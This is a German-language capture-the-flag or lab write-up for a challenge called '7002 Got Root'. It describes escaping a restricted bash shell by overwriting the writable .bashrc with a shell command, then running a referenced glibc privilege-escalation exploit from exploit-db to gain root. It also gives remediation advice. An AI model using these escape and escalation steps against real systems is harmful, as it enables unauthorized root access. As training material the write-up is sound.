

# 7002 Got Root

## Analyse
- Mit dem `restricted` User ist man in einer Shell gefangen, `cat` zum Beispiel funktioniert nicht:
```
-rbash: /usr/bin/python: restricted: cannot specify `/' in command names
```
- Offensichtlich ist man in einer `rbash`. Im "home"-Verzeichnis liegt folgendes:
```
$ ls -la
drwx------ 3 restricted users 4096 2012-04-12 12:43 .
drwxr-xr-x 6 root       root  4096 2008-11-13 16:54 ..
-rw------- 1 restricted users  883 2012-04-12 12:52 .bash_history
-rw-r--r-- 1 restricted users   39 2007-09-12 12:27 .bashrc
dr-xr-xr-x 2 root       root  4096 2007-09-12 11:50 bin
lrwxrwxrwx 1 root       root     7 2008-11-13 10:18 .profile -> .bashrc
```
- Mit `ls -la bin/` sehen wir, dass wir `tee`, `ls` und `ping` ausführen können
- Die `.bashrc` wird bei jedem Login ausgeführt, und als `restricted` User haben wir Schreibrechte drauf

### Exploit
- Mit `tee` können wir die `.bashrc` überschreiben
```bash
echo '/bin/sh' | tee .bashrc
```
- Wenn wir jetzt eine sepparate SSH-Session aufmachen, wird `/bin/sh` ausgeführt, und wir sind in einer normalen Shell
- Von do können wir den Exploit von <http://www.exploit-db.com/exploits/18105/> benutzen
    - `cat > exploit.sh << EOF`
    - Exploit einfügen
    - `EOF`
    - `chmod +x exploit.sh`
    - `./exploit.sh`


(im Bild heisst der exploit `nothing.sh` und wurde schon in der rbash hinein kopiert)

secret.txt:
```
TEAM X GOTROOT

ID: GOTROOT

____________________________________________________________
Je unschuldiger ein Mädchen ist, desto weniger weiss sie
von den Methoden der Verführung. Bevor sie Zeit hat nachzu-
denken, zieht Begehren sie an, Neugier noch mehr und Gelegen-
heit macht den Rest...
(Casanova)

I love you all 
E1
```

## Remediation
- Das File `.bashrc` muss zwar vom `restricted` User ausgeführt werden können, er braucht aber keine Schreibberechtigung darauf. Eine Berechtigung von `400` würde reichen, dann könnte er die Datei nicht mehr überschreiben
- Natürlich ist dieser Exploit nur mit einer alten Version von `glibc` möglich
